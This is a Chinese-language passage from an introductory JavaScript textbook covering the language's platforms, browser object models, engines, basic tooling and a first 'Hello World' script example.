* **闭包是万能的**：正如 Resig 在他现在已闻名的演讲中所指出的，在这个阶段，程序员通常会发现闭包如何帮助解决在第 3 阶段构建复杂的互连 API 时遇到的某些问题。然而，他们可能并不完全理解闭包是一个“雷区”。内存泄漏、难以追踪的作用域链和胶水代码与程序员首次尝试使用闭包是并存的。

# 现实世界中的 JavaScript

正如前面提到的，JavaScript 语言（通常以其 ECMA 名称 `ECMAScript` 称为）无处不在——不仅是在网页中。它根据使用位置的不同，呈现出惊人不同的形式。为 ECMAScript 使用格局提供完整的背景，这里是这些用途的一些示例。

## 在浏览器中

基于浏览器的开发无疑是 JavaScript 的原始且主要的平台。JavaScript 可以在网页的范围内执行，在 Firefox 插件的情况下甚至以浏览器插件的形式执行。Web 开发者确实有很多东西要应对。首先，他们必须决定哪些浏览器和平台构成了他们的受众。如果他们为桌面级浏览器开发网站，至少应该测试三个目标：`Internet Explorer`、`Firefox` 和 `Safari`。他们还想测试这些浏览器的所有流行版本（通常并不意味着最新版本）。对于大多数用途，JavaScript 的核心语言在这些最新版本之间区别很小，而且谢天谢地，无论是在 Mac 还是 PC 上运行，它们的功能大体相同。变得有点复杂的是，如果他们还想包含移动平台，特别是手机和游戏机。许多手机使用 `Opera` 浏览器平台，`Nintendo Wii` 浏览器也是如此。手机使用自己的专用浏览器和 JavaScript 引擎，而 Apple 的 `iPhone` 使用的是精简版的 `Safari`。

为移动平台编写 JavaScript 的关键考虑因素之一是这些设备提供的糟糕性能，正如图 1-1 中的图所示。在这些情况下，使用高性能代码的最佳实践变得更加重要。其中许多内容在第 25 章中描述。

图 1-1


在浏览器中使用时，JavaScript 被认为是一种解释型语言。这使其与其他编程语言（如编译语言 `C++`）不同。当浏览器下载嵌入了 JavaScript 的页面时，它接收的是脚本的源代码。然后它将脚本传递给一个名为解释器的程序，该程序将其转换为机器码。浏览器每次加载页面时都会这样做，并且在执行之前不会尝试缓存或验证程序。错误会在发生时传递给用户。对开发者来说，优点是它是编写应用程序的一种非常轻量的方式，而且主要的调试环境是浏览器本身。缺点是你的所有源代码对任何想要查看它的人可见。此外，因为它是即时解释的，而不是先编译成机器码，JavaScript 不适用于编写 CPU 密集型应用程序（如 3D 游戏或 `Autocad` 程序），主要因为它的速度不够快。

## 服务器端 JavaScript

尽管开发环境不同，JavaScript 也被多次实现为一种服务器端脚本语言，通常用于生成网页。这最早由 Netscape 在其 `Enterprise Server 3.0` 产品中以一种名为 `LiveWire` 的功能形式实现。那是 1996 年的事。今天有许多实现 JavaScript 的服务器端框架。其中一些使用 `Rhino` 或 `SpiderMonkey` 等开源解释器。微软在他们的浏览器和开发运行时 `.NET` 中使用了他们的解释器（称为 `JScript`）。即使是微软现在已过时的 `ASP` 框架也有 JScript 作为可用语言。今天，在 `.NET` 中编写应用程序时，很少有人选择 `JScript`，但它在其他供应商的产品中仍然存在：



## ActionScript 和 Flash

`ActionScript` 在 `Macromedia Flash Player` 5 中引入，它是对很久以前引入 Flash 的脚本功能的改进。其核心理念仅仅是允许开发者根据用户输入应用自定义的动作和行为。它是 `ECMAScript V1` 的完整实现，并允许`过程化`和`面向对象`开发风格。在 Adobe 收购 Macromedia 前后，`ActionScript 2.0` 发布了，它实现了 `ECMAScript` 的工作草案 V4。人们曾预计浏览器厂商最终也会效仿此并实现这一版本。遗憾的是，微软与 Mozilla 基金会之间随后的政治纠纷严重降低了该版本被普遍采纳的可能性，使得 Adobe 成为少数可能实现该语言特定分支的厂商之一。如今，`ActionScript` 已在 Flash 和 Flex 中均实现，并拥有庞大的专业开发者群体。

## Adobe 集成运行时 (AIR)

Adobe Integrated Runtime (AIR) 是 Adobe 提供的一项较新产品，但已成为编程版图中重要的组成部分。它提供了跨平台的“一次编写，随处运行”桌面开发，并特别关注与 Web 服务的集成。开发者可以使用 Flex 或带有 `JavaScript` 的 HTML 编写应用程序，并将其编译运行在 OSX、Windows 或 Linux 桌面上。HTML / `JavaScript` 的实现是通过重新封装自定义版本的 `Webkit` (Safari) 并带有一些 API 扩展来实现，以添加如在线/离线检测、持久 `SQLite` 存储和多媒体支持等功能。

## 在其他 Adobe 产品中

Adobe 还将 `JavaScript` 作为脚本和自定义产品的语言，例如 Dreamweaver（用于制作插件）、Acrobat（用于自定义界面）和 InDesign。

## 桌面小组件

随着 Apple Dashboard 小组件、Yahoo Konfabulator 小组件以及用于 Vista 的 Microsoft Gadgets 的流行，现在清楚 `JavaScript` 是桌面和仪表类型小组件的首选语言。一个小组件可以是一个蛋计时器、新闻阅读器，甚至是一个简单的游戏。在这些情况下，小组件通常可以使用 `JavaScript`、`CSS`、`HTML` 和 `XML` 的组合构建。根据平台的不同，它们可能对系统资源（如文件系统）拥有有限访问权限，但通常运行在一个非常小的网页上下文中。Apple Dashboard 小组件还具有使用 `Canvas`（图形）元素的能力，因为它们使用 Safari 的浏览器引擎 `WebKit` 进行渲染。

## 互补技术

特别是在浏览器脚本领域，有一组开发者必须理解的互补技术。在书中，我将多次提到这些技术，你将深入理解它们如何适配到开发栈中，以及开发者如何在应用程序中使用它们来构建强大的界面。

## 超文本标记语言 (HTML)

构成网页的声明式文档标记语言与 `JavaScript` 有广泛的交互。`Script` 允许我们通过编写新内容和修改现有内容使页面变得`动态`。你可以通过将 `HTML` 视为一个大字符串并处理构成它的单词和符号来与其交互（如下方的第二个示例所示），或者通过使用 `DOM`（文档对象模型）以分层对象的方式来操作页面。使用 `HTML`，你可以通过以下语法告诉浏览器在页面中内联执行一段脚本：

```html
<html>
    <head>
    <script type="text/javascript">
        // 这个 JavaScript 块将首先执行
    </script>
    </head>
<body>
    <script type="text/javascript">
        // 这一块将第二个执行
    </script>
    <h1>Hello World</h1>
    <script type="text/javascript">
        // 这一块将最后执行
    </script>
</body>
</html>
```

你也可以使用 `JavaScript` 通过简单地将其写入页面来生成 `HTML`：

```html
<html>
<body>
    <script>
        document.write("<h1>Hello world!</h1>");
    </script>
</body>
</html>
```

## 级联样式表 (CSS)

`CSS` 描述了网页上大多数内容的颜色、大小、位置和形状。`CSS` 文档可以静态地描述文档的外观和感受，但这些属性在页面加载后也可以被更改。对于希望使用它动态修改这些属性的脚本开发者来说，有一个深入的对象模型可用。通过脚本操作元素的样式，你可以使其大小或位置产生动画，让它在其他元素前面或后面移动，或者让它淡出消失。在接下来的示例中，你通过修改文档对象的背景颜色 CSS 属性来更改文档的颜色（如果你现在还不理解也没关系）。

```html
<html>
  <body>
  <script type="text/javascript">
    document.body.style.backgroundColor = 'green';
  </script>
  </body>
</html>
```

你可以在 Internet Explorer 的图 1-2 中看到渲染。

图 1-2


## 浏览器对象模型 (BOM)

浏览器中的 `JavaScript` 实际上是一组与浏览器特定功能区域的对象模型。其中之一被称为 `BOM`（浏览器对象模型），代表浏览器本身。可以通过引用顶层对象 `window` 来访问浏览器对象。从这里，你可以访问如 `document` 对象、帧集合、浏览器历史、状态栏等。在很大程度上，你在 `BOM` 中发现的内容取决于你运行的是哪种浏览器。然而，主要部分可以在图 1-3 中看到。

图 1-3


浏览器对象模型包含以下子组件：
* `document` 对象：代表当前页面的文档对象。
* 帧集合：提供当前页面内帧的数组。
* `history` 对象：包含浏览器的历史列表。
* `location` 对象：持有浏览器当前显示的 URL。
* `navigator` 对象：拥有关于浏览器本身的信息，如版本号和浏览器引擎。

## 文档对象模型 (DOM)

到目前为止，浏览器中所有可用对象模型最重要的对象是 `document`。`document` 以分层节点集合的形式访问页面上的所有元素。它还包含一些关于页面本身的元数据信息，如标题和 URL，并提供了对常用元素（如表单、链接和 `<a>` 标签（锚点））快捷集合的访问。可以在 JavaScript 应用程序的任何部分通过 `window.document` 或简单的 `document` 访问 `document` 对象。`DOM` 是一个巨大的对象，但一些最常见的顶层属性可以如下所示。带有完整浏览器支持信息的更完整参考见附录 F。



你稍后会详细查看它，但现在只需要知道 `document` 是当前页面的表示，它是动态的（可以通过 JavaScript 调用进行修改），并且在不同的浏览器引擎之间并不完全相同。例如，Internet Explorer 的 `document` 对象包含 WebKit 中没有的方法和属性，反之亦然。随着时间的推移，对象模型也发生了巨大的变化。最早的 `DOM`（由 Netscape 2 和 Internet Explorer 3 支持）仅支持今天可用功能的一小部分。在附录 F 中，你可以找到详细的浏览器支持数据和版本信息以帮助你。

在观察新技术时，考虑“大局”有时是很有用的。一旦你理解了这一点，就可以开始预判可能出现的其他问题的答案。对于 JavaScript 来说，这些“大局”问题之一就是：它*能*做什么，以及它*不能*做什么。毕竟，它是一种脚本语言，并且（通常）运行在浏览器内部——我们知道它的能力一定是有限制的。

让我们从它*能做*的事情类型开始吧：

* **在页面上动态绘制框、图像和文本：** 使用 `Dynamic HTML` 和 `DOM`，你可以对网页上的此类对象进行任意样式设置和动画处理。
* **打开和关闭窗口：** 你可以创建新的浏览器窗口并在某种程度上与它们进行通信。你还可以使用 `DHTML` 创建*模拟*窗口，甚至为它们提供像桌面其他地方出现的真实窗口那样的拖放支持。
* **对屏幕内容制作动画：** 你可以使用 `DHTML`、`DOM` 和 `JavaScript 计时器` 创建多个同时进行的、线程化的动画。
* **修改文档：** 你可以创建元素、文本和图像，也可以删除或修改现有的元素。
* **与服务器通信：** 使用 `Ajax` 和类似技术，你可以在服务器和客户端之间异步发送消息，而无需强制页面重新加载。
* **与 Java、Flash、Silverlight 对象对话：** 你甚至可以与嵌入页面的其他类型媒体通信，以控制 `Flash` 和 `Silverlight` 电影的行为，或与 `Java Applets` 交互。
* **监视用户；记录他们的操作：** 是的，即使是多么不道德，记录你的网站用户在页面上执行的一切，包括他们的鼠标移动、击键等，并在稍后进行研究。这些数据也有良性的用途（例如网络分析）。
* **读取鼠标/键盘：** 你可以详细跟踪用户对键盘和鼠标的操作，以创建极其丰富且交互性的 Web 应用程序。
* **离线保存数据以后使用：** 你可以将信息存储在用户计算机的半永久存储中，这样他们下次访问我们的页面并想要访问它时，就可以获取。
* **创建自由格式图形元素：** 使用 `Canvas` 元素、`Scalable Vector Graphics` (SVG) 和 `Flash` 等补充技术，你可以在页面上放置自由格式元素，甚至可以动态更改它们。
* **创建无障碍 Web 页面：** 一个常见的误区是，认为为残障人士创建无障碍 Web 页面的同时使用 JavaScript。大多数有残障的 Web 用户都在使用支持 JavaScript 的浏览器。只要稍加留心关注，你就可以确保你的页面方便他们使用。

在浏览器中使用 JavaScript 无法做的事情：

* **操作文件系统上的文件：** 脚本不能任意打开和读取用户硬盘上的文件。
* **直接与硬件对话：** 你无法编写一个直接与游戏控制器或其他外部硬件交互的程序。
* **从自由读取内存：** 你无法访问计算机内存中除了局部变量栈和对象模型内容之外的任何内容。
* **执行通用网络任务：** 在不使用插件的情况下，你无法打开套接字或执行超出简单 `HTTP request` 范围的通用网络任务。
* **与桌面交互：** JavaScript 不能用于打开或关闭用户桌面上的窗口或程序，除非它们是浏览器窗口。
* **打开太小的窗口：** 由于过去在线广告商所采用的不良技术，JavaScript 调用打开的窗口在尺寸和位置上受到了严格限制。
* **设置 FileUpload 字段的值：** 出于安全限制，你无法设置 `FileUpload` 表单字段的值。
* **在不使用插件的情况下提供富媒体访问权限：** 尽管我之前提到过可以动态创建自由格式图形元素，但这并不完全。只有当用户拥有必要的插件时（即：`Flash`）才成立。否则，你无法在页面上播放声音或电影文件或执行丰富的图形。

关于何时应该使用 JavaScript 的简单答案是：当你认为你的观众中没有人会损害（通过兼容性问题、可访问性或性能），而且大多数人将从中受益时，你就应该使用它。虽然这是一个相当晦涩的回答，但事实是，你可以使用 JavaScript 做很多事情让应用程序对每个人都变得更容易、更快、更有趣。只要你在开发中遵循“最小伤害”哲学，尽管朝着高目标——你的用户会感谢你的！

# 主要 JavaScript 引擎

浏览器内部解释页面上所有 JavaScript 的功能称为 `JavaScript Engine`。这引擎与浏览器内部渲染 HTML 和 CSS 的功能不同，后者被称为 `Layout Engine`（布局引擎）。引擎的数量几乎与浏览器厂商一样多。多年来，这一直是很多困惑的来源，因为对于开发者来说，用户在使用什么种浏览器往往比他们在使用什么种 JavaScript 或布局引擎更重要。

通常情况下，JavaScript 引擎实现了 `ECMAScript` 标准的一个或有时是多个版本。除少数例外外，大多数现代引擎都符合该标准的第 3 版。然而，所有主要厂商（`Microsoft`、`Mozilla`、`WebKit`）都对语言和对象模型开发了自定义扩展，尽管这些并不是“官方”标准的一部分，但在竞争中处于不同的支持阶段。

在某些情况下（例如 Mozilla 的 `Rhino` 和 `SpiderMonkey` 引擎），实现 JavaScript 的代码是模块化的，可以在浏览器之外供第三方使用。这导致了使用通用平台支持 JavaScript 的脚本工具的大规模传播——因此，比以往任何时候跟踪哪些引擎支持语言的哪些功能以及它们之间如何比较都变得更加困难。

以下是主要的 JavaScript 引擎列表。



## 引擎对 ECMAScript 支持

`ECMAScript` 是描述 JavaScript 语言的 `Ecma International` 规范。严格来说，浏览器实现的是标准 `ECMAScript`，而不是 JavaScript（后者是 Mozilla 授权的商标，也是 Mozilla 引擎的）。

原始的 `ECMA 262` 草案经过了四次修订，均处于不同的采用阶段：



`ECMAScript 支持` 与不同引擎版本的对应如下：



## 通用等效性

如果你遵循 JavaScript 引擎随时间推移的变化，你可以从 JavaScript 对象模型等效性和对 `ECMA` 标准的支持方面对浏览器进行常规比较。如果你要从下面的图表中推断出任何结论，那可能是浏览器厂商多年的合作在最近开始破裂。特别是 `Firefox` 浏览器的快速演进使得其他浏览器难以跟上。随着近期引入 `ECMAScript 3.1` 草案，你可能在未来看到创新的速度减缓，以取代协作，至少在对象模型和 API 方面，如果在引擎的其他方面（如性能）不是如此。



比较 JavaScript 引擎是一项棘手的工作。操作系统的选择以及运行的具体测试类型会很大程度上影响结果。尽管如此，你仍然可以从基准测试中学习到一些，至少可以了解到浏览器正在变快。图 1-4 展示了 SunSpider 基准测试工具在多个最新浏览器上的结果。

图 1-4


我们最近在浏览器引擎中看到，人们对 JavaScript 解释器的原始性能更加关注——这在以前并不被认为主要问题。这是对富 JavaScript Web 应用程序日益依赖的自然结果。它们部分通过将解释器视为某种编译器，并对代码进行高度复杂的分析以生成尽可能简洁的字节码来实现这一点。结果是解释型 JavaScript 程序的性能接近原生编译代码。在图 1-5 中，你可以看到 Safari (WebKit) JavaScript 性能最近的提升。

图 1-5


# 基础工具

开发 JavaScript 应用程序只需要文本编辑器和一个 浏览器。在这里你会找到针对每个者的有用建议，但如果你只有 Windows 记事本和 Internet Explorer，你也可以轻松地编写和测试书中的示例。

## 选择文本编辑器

有些人倾向于在 Visual Studio（设计模式）或 Dreamweaver 设计模式下在 WYSIWYG（所见即所得）编辑器的黑箱中工作。Microsoft FrontPage 也提供此功能。我强烈建议不要习惯这类工具，因为它们通常无法准确预测浏览器行为，而且你仍然需要花费大部分时间在查看实际代码上。然而，如果你只使用文本编辑功能，Visual Studio 和 Dreamweaver 都是不错的选择。如果你不想为这些程序花钱（你的雇主通常不会付钱），这里是一些替代方案：

* **Aptana** ([`www.aptana.com`](http://www.aptana.com)): 一个基于 Eclipse 的 IDE，内置了 Intellisense 以帮助记忆那些讨厌的方法名和属性名，还有一个用于页面样式的 CSS 助手。它有一个完全免费版，这也是大多数人使用的版本。花费不到 100 美元即可升级到专业版，该版还支持在 IDE 内部调试 JavaScript 应用程序。*Mac*、*Windows*、*Linux*。
* **Microsoft Visual Web Developer Express Edition** ([`www.microsoft.com/express/webdevelopment/`](http://www.microsoft.com/express/webdevelopment/)): 一个基于 Visual Studio 并专为 Web 开发定制的全功能 IDE。这个工具特别有用的一点是，你可以配置它在浏览器之外调试 JavaScript 代码。如果你负担不起 Visual Studio 但喜欢这类产品，务必考虑这一个。*Windows*。
* **Notepad++** ([`notepad-plus.sourceforge.net`](http://notepad-plus.sourceforge.net)): 是一个开源免费的文本编辑器，旨在作为 IDE。虽然非常简陋且没有 intellisense，但它具有出色的语法高亮，并可以通过丰富的插件库将项目与远程 FTP 或 SSH 服务器同步。*Windows*。
* **Textmate** ([`macromates.com/`](http://macromates.com/)): 被称为 OSX “缺失的编辑器”，Textmate 是 Mac 上开发者的首选 IDE。虽然初看之下看起来只是一个文本编辑器，但当你深入使用时，会发现世界上许多有用的宏和代码片段可以帮助你。这不是免费产品，但仅需约 50 美元。*Mac*。

## Web 服务器

虽然不是必须的，但如果你在本地机器上运行 Web 服务器的背景下进行开发，这在以后可能会很有帮助；如果你的页面只是带有一些 JavaScript 的简单静态 HTML（且没有 Ajax），则不需要它。只需通过在地址栏中使用 `file:///` 指令将浏览器指向你计算机上的页面即可。如果你正在运行 Internet Explorer，可能会收到安全警告提示，如图 1-6 所示。在 IE 中从文件系统运行 JavaScript 时，你运行在一个不同的安全沙箱中，对活动内容的限制更严。你可以更改浏览器设置，或者通过点击按钮并选择“允许阻塞的内容”（Allow Blocked Content）来允许该页面的内容。最终，你可能需要在计算机上设置一个 Web 服务器来对 Ajax RPC 进行适当测试。在 Windows 上，你可以通过从控制面板 ⇒ 添加/删除程序首次安装免费的 Internet 信息服务 (IIS) 服务器。你应该将 HTML 文档放在 `C:\inetpub\wwwroot\` 中，并通过访问 [`localhost`](http://localhost) 在浏览器中查看它们。在 OSX 上，内置了 Apache Web 服务器，可以通过“系统偏好设置”应用程序点击“共享”并选择“Web 共享”来激活。

图 1-6


## 测试浏览器

一旦你设置好了 IDE 和 Web 服务器（如果你确实想要 Web 服务器的话），请确保你有一个良好的跨浏览器测试组合。最新数据（2008 年 11 月）报告，Internet Explorer、Firefox 和 Safari 应该在你的测试列表中。它们对市场提供了很好的覆盖，如果你的代码在这些浏览器中运行，它们很可能在较旧版本的 Opera、Netscape 和 Google Chrome 中运行。

在 Windows 上，Internet Explorer 是预装的。你可以选择升级到最新版本或保持原样。你还应该从 [`www.getfirefox.com`](http://www.getfirefox.com) 下载 Firefox，并从 [`www.apple.com/safari/`](http://www.apple.com/safari/) 下载 Safari。Google Chrome 可以在 [`chrome.google.com`](http://chrome.google.com) 下载，Opera 可以从 [`www.opera.com`](http://www.opera.com) 下载。在 Mac 上，你需要从相同的位置下载 Firefox，当然，Safari 是预装的。对于测试 Internet Explorer，我们建议你在桌面的 Windows VMWare 或 Parallels 镜像中运行副本。在第 21 章中，我将更多地讨论帮助你在浏览器内部调试应用程序的工具。现在，只需确保你可以使用手头的任何浏览器（至少使用前面提到的 `file://` 技术）在计算机上加载测试页面即可。

# 你的第一个 JavaScript 应用程序

本章提供了关于 JavaScript 在开发中历史和角色的背景，但任何编程语言的介绍如果没有一个基础示例都是不完整的。记住，书中的所有示例都可以在 [`wroxjavascript.com`](http://wroxjavascript.com) 在线找到。有几种方法可以使用 JavaScript 增强网页。一种是使用 HTML 标签 `<script>` 来指示页面的脚本部分。这被称为*脚本块*（script block）。当浏览器在页面中发现脚本块时，它不会将内容绘制到页面上。相反，它会按照*出现的顺序*将其内容“解析”为脚本块。通常情况下，如果页面上有两个脚本块，上面的将先执行。你可以将脚本块放在页面的 `<head>` 区域，也可以放在 `<body>` 区域。头部中的块会在正文块之前执行。

我将在第 3 章中更多地讨论 `<script>` 标签，因为关于它们还有几点你需要了解的。现在，请看以下带有内联 JavaScript 代码的 HTML 页面。

## Hello World!

```html
<body>
  <script type="text/javascript">
    var today = new Date();
    document.write("<p>Today is: " + today.toString() + "</p>");
  </script>
</body>
```

如果你将这段代码写入文本文件，保存到硬盘并在浏览器中加载它，你可能会看到类似图 1-7 所示的内容。

图 1-7


让我们快速看看内容，看看发生了什么。

## 拆解分析

我将脚本块放置在 `h1` 标题标签下方，这样浏览器在渲染完之前的内容后就会执行它。脚本块本身会被 HTML 布局引擎忽略，其内容会被传递给浏览器内部的 JavaScript 引擎。第一行代码：`var today = new Date();` 你在这里看到的是所谓的“语句”（statement）。事实上，JavaScript 中的每一行代码都被称为语句。准确地说，你应该知道你可以在一行代码中放置多条语句，只要它们之间用分号隔开即可。为了可读性，我将每个语句都单独放在了一行，并使用了宽泛的缩进——这完全出于美观考虑。

回到这行特定的代码，我使用了 `var` 语句来声明一个变量。我将在第 2 章中详细介绍这一点。目前，只需要知道我声明了一个变量并给它分配了一个值——全局 `Date` 对象的一个新实例即可。恰好在 JavaScript 中，当你创建一个日期而没有明确指定是哪一天时，它会自动变成今天的日期和时间。这就是我在这里做的。

继续查看块中的下一条语句：`document.write("<p>Today is: " + today.toString() + "</p>");` 在本章前面的部分，我简单提到了 DOM（文档对象模型）。这里提到的文档实际上就是你看到的页面。该对象上有一个名为 `write()` 的方法，允许我们向其附加一些文本。这些文本可能包含也不包含 HTML 标签。在我的案例中，我在输出的文本中创建了一个段落标签，并且输出了我的变量值。

通过使用加运算符 `+`，你可以轻松地将多个字符串拼接在一起。在这里，这三个字符串是 `<p>Today is:`、`today.toString()` 输出的任何内容以及 `</p>`。JavaScript 引擎会在将结果传递给 `document.write` 并输出到页面之前对该操作进行评估。

这个特定程序就此结束。当引擎遇到闭合标签 `</script>` 之后，它会将任何结果传递给布局引擎并继续渲染页面的剩余部分。

## 总结

到目前，你已经非常了解 JavaScript 是如何变成今天的，以及通过它你可以实现什么。你学习了：
* JavaScript 从一个相当原始的 Netscape 脚本扩展逐渐演变为一个全行业支持的复杂工具。这种语言正在不断进步和变化，它未来的面貌尚未完全确定。
* ECMAScript 是 JavaScript 依据的标准，它已经在浏览器外的许多不同技术中实现，包括微软的 .NET、Adobe Flex 和 Flash，甚至在桌面端。
* 与 HTML、CSS 等其他技术一起，JavaScript 仅仅协同工作的复杂技术栈中的一个部分。这些技术在不同浏览器之间的差异使得 JavaScript 开发有时具有挑战性。
* 开发应用程序不需要编译器。脚本在文本编辑器中编写，并在浏览器中直接测试，这使得开发变得更加易读。
* 你接触了开发所需的基础工具栈，包括 IDE（集成开发环境）或文本编辑器、Web 服务器（特别是 Ajax 开发需要它）以及浏览器测试环境。
* 包含 JavaScript 代码的脚本块通常按照它们在网页中出现的顺序执行。
* 你接触了一个基础的“Hello World”类型应用程序，它利用了脚本块、变量和 `document` 对象。

在第 2 章中，我将深入探讨 JavaScript 语言如何融入浏览器上下文。我将更深入介绍文档对象模型（DOM）的概念，解释 `<script>` 标签，并讨论 JavaScript 在网页中是如何以及何时执行的。

# 浏览器中的 JavaScript

现在我要为这本书的后续内容奠定基础。由于我将作为通用语言来讨论 JavaScript，也会专门作为 Web 开发工具来讨论它，因此你应该精确地理解它是如何与浏览器交互的。这样，当我以后在书中示例中讨论文档对象模型（DOM）或 JavaScript 如何与 HTML 交互等概念时，你将确切知道我在说什么。

JavaScript 出现的时间足够长，以至于所有主要的现代浏览器（Internet Explorer、Firefox / Netscape、Opera、Safari 和 Chrome）在处理脚本以及它们与文档交互方面，工作方式几乎相同。当然，在涉及到细微细节时会有很多差异，但总的来说，各个浏览器都尝试以相互一致的方式进行操作。ECMAScript 的通用语法、在页面上嵌入脚本的方式以及 DOM 的通用结构在很大程度上是一致的。这是一件好事，因为如果事实并非，JavaScript 开发将非常难以学习。

## 文档对象模型

